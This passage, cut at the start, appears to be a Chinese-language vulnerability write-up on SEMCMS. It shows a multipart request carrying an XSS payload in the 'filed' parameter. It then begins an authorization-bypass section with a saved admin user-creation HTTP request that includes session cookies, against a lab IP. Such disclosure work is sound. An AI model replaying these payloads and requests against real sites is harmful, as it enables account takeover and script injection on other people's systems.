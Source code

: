 ```

123123</script><script>alert(123123)</script>
-----------------------------3008138927223517928917539185
Content-Disposition: form-data; name="filedname"

form
-----------------------------3008138927223517928917539185
Content-Disposition: form-data; name="submit"

Submit
-----------------------------3008138927223517928917539185--
```  
  
在  
filed  
参数处存在跨站脚本漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicfAqrfxvFTnLeX6TXn4Z8JYhChh5dIkiaZCYs7URSyksO5cDIsDweVdg/640?wx_fmt=other&from=appmsg "")  
  
‍  
  
出现跨站脚本漏洞  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdicj0JCibHRSicbkJPFDu75Nemv6DTGsZ76fRqSH7lHojxcFuMib5jMECTzQ/640?wx_fmt=other&from=appmsg "")  
  
  
  
  
  
  
1.4 semcms存在越权访问  
  
  
首先我利用后台用户管理功能创建任意用户    
  
这里我创建的用户名密码为  
sjw 123456  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdic6ZiaavSaJLkOMMcWsTka0iaS581jQTn96ia9mWbp9rMcVCNDXOwcEVKgQ/640?wx_fmt=other&from=appmsg "")  
‍  
  
并且没有给sjw用户分配任何权限  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/CicIXicDugvT1QYtYOeeby04UoR7rOnicdic7zibdJhcbyMqMOUSwgoxIaYn30u3E8EmrnAxTm8iaf7YIibJroXJicwhyw/640?wx_fmt=other&from=appmsg "")  
  
然后保存一下创建账户的请求包  
```
POST /p9aVTG_Admin/SEMCMS_User.php?Class=add&CF=user HTTP/1.1
Host: 192.168.112.140
Content-Length: 108
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.112.140
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.112.140/p9aVTG_Admin/SEMCMS_User.php?type=add
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Connection: close

user_name=sjw&user_admin=sjw&user_ps=123456&user_tel=123&user_email=123%40qq.com&submit=%E5%A2%9E%E5%8A%A0
```  
  